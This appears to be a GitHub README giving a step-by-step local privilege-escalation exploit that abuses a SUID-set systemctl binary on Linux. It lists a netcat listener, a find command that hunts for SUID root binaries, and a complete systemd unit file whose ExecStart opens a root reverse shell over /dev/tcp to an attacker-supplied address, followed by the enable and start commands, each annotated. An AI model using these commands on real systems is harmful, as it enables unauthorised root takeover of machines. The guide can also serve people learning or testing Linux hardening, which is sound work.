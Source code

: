 # Expected conditions for **systemctl** exploit:
1. Having access to shell with non-root user.
2. Having netcat listener running locally on a random port:
<a name="netcat-section"></a>
```
nc -lvp 9999
```
1. **systemctl** command has SUID bit set.
   1. To check commands with SUID bit:
      ```
      find / -user root -perm -4000 -exec ls -ldb {} \;
      ```
      * **find** - search for
      * **/** - start search from root directory
      * **-user root** - condition saying that user must be root
      * **-perm 4000** - condition saying that file should have SUID bit set
      * **-exec** - execute command on each file that meets conditions
        * **ls -ldb** - execute **ls** command with attributes
        * **{}** - output placeholder
        * **\;** - the end of the -exec command

## Usage
1. Paste the below echo command in the remote shell:
```shell
echo "
[Unit]
Description=access root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<ip-address>/9999 0>&1'

[Install]
WantedBy=multi-user.target" >> /tmp/test.service
```
* Above echo saves **test.service** service into temporary file.
* **[Unit]** header that contains Description attribute of the service. Description can by anything.
* **[Service]** header contains **Type** attribute equal to **Simple** which tells service manager that service starts immediately after the main service process has been forked off. **ExecStart** attribute describes what command are executed when the service is started:
  ```
  /bin/bash -c 'bash -i >& /dev/tcp/<ip-address>/9999 0>&1'
  ```
  * **/bin/bash -c ''**: run command with bash
  * **bash -i**: starts bash in interactive mode
  * **>&**: redirect standard output and error
  * **/dev/tcp/<ip-address>/9999**: into special device file that allows to create TCP socket with your IP address under specific port number [(used previously in netcat listener)](#netcat-section)
  * **0>&1**: redirect standard input (0 file descriptor) where the standard input (1 file descriptor) is redirected - which is TCP socket

2. Enable service:
```sh
systemctl enable /tmp/test.service
```
3. Start service:
```sh
systemctl start test
```
'

